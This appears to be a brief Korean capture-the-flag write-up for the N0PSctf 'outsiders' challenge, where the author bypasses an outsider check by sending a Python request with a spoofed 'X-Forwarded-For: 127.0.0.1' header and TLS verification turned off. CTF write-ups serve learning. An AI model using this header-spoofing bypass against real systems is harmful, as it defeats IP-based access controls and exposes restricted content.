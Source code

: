 ![image](https://github.com/DA2RIM/N0PSctf/assets/171825457/1bab3c00-50ef-494d-884d-2356b13a54d1)

outsider라고 하는걸 보니 외부인에게는 플래그를 보여주지 않겠다 하는거 같은데.. 그럼 바꿀껀 ip 정도라고 생각이 들어서 ip를 루프백으로 바꿔서 리퀘스트를 보냄

``` python
import requests
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers ={
    "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36",
    "X-Forwarded-For" : '127.0.0.1'
}
response = requests.get("https://nopsctf-outsiders.chals.io/",allow_redirects=True, headers=headers, verify=False)
response.close()

print(response.text)
```

![ousider](https://github.com/DA2RIM/N0PSctf/assets/171825457/faf458fb-2248-43d1-9013-0646df7473e3)

![outsider2](https://github.com/DA2RIM/N0PSctf/assets/171825457/bb14f73e-4298-473b-8f58-d7daf56f2aa7)

